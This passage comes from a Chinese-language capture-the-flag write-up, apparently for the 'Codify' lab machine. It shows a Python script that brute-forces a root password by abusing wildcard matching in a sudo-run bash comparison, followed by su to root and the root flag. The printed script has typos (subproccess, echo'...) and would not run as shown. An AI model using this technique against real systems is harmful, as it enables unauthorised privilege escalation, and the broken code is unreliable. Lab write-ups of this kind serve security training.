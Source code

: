 在其中看到

```shell
if [[$DB_PASS == $USER_PASS]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

那么可以尝试对 `$DB_PASS` 变量进行爆破，也就是读取 `/root/.creds` 文件的内容

```python
import string
import subproccess

def check_password(p):
    command = f"echo'{p}*'| sudo /opt/scripts/mysql-backup.sh"
    result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
    return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
    for char in charset:
        if check_password(password + char):
            password += char
            print(password)
            break
    else:
        is_password_found = True
```

执行后得到密码 `kljh12k3jhaskjh12kjh3`

## User - root

```shell
(remote) joshua@codify:/home/joshua$ su root
Password:
root@codify:/home/joshua# whoami
root
```

### flag - root

```shell
root@codify:~# cat root.txt
f2138d1d7e9e92e46c08a57ad2c6754f
```

